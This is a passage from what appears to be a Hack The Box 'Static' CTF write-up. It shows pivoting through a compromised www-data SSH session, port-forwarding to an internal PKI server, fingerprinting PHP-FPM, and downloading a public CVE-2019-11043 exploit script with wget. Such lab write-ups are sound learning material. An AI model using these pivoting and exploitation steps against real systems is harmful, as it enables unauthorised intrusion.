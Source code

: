 ```sh
www-data@web:/$ nmap2 192.168.254.3
Port 80 seems to be open
```

Looking back at IT Support Portal we found earlier I notice that 192.168.254.3 is listed on there as a server called pki. From the scan we can see port 80 is open, to get to that we'll need to tunnel a port from Kali through this SSH connection. We've done this many times before like on [GameZone](https://pencer.io/ctf/ctf-thm-game-zone), we simply forward port 80:

```sh
┌──(root💀kali)-[~/htb/static]
└─# ssh -L 80:192.168.254.3:80 www-data@10.10.10.246 -p2222 -i id_rsa
www-data@web:~$
```

## PKI Server

Here we have said any traffic on Kali to port 80 forward through the SSH connection to 10.10.10.246 on port 2222 and pass it on to 192.168.254.3 on port 80. There's a good article [here](https://www.ssh.com/academy/ssh/tunneling/example) that explains this some more.

Now we can access the pki server:

```sh
┌──(root💀kali)-[~/htb/static]
└─# curl -i localhost
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Wed, 03 Nov 2021 22:27:24 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP-FPM/7.1

batch mode: /usr/bin/ersatool create|print|revoke CN
```

Ok, I admit I was expecting more! A search for PHP-FPM exploits reveals plenty of options on Github like [this](https://github.com/AleWong/PHP-FPM-Remote-Code-Execution-Vulnerability-CVE-2019-11043-) one, [this](https://github.com/neex/phuip-fpizdam) one or [this](https://github.com/theMiddleBlue/CVE-2019-11043) one. I went with the easiest, a simple Python script:

```sh
┌──(root💀kali)-[~/htb/static]
└─# wget https://raw.githubusercontent.com/theMiddleBlue/CVE-2019-11043/master/exploit.py
--2021-11-03 22:21:54--  https://raw.githubusercontent.com/theMiddleBlue/CVE-2019-11043/master/exploit.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.110.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4280 (4.2K) [text/plain]
Saving to: ‘exploit.py’
exploit.py      100%[======================================================================>]   4.18K  --.-KB/s    in 0s      
2021-11-03 22:21:55 (83.8 MB/s) - ‘exploit.py’ saved [4280/4280]
```
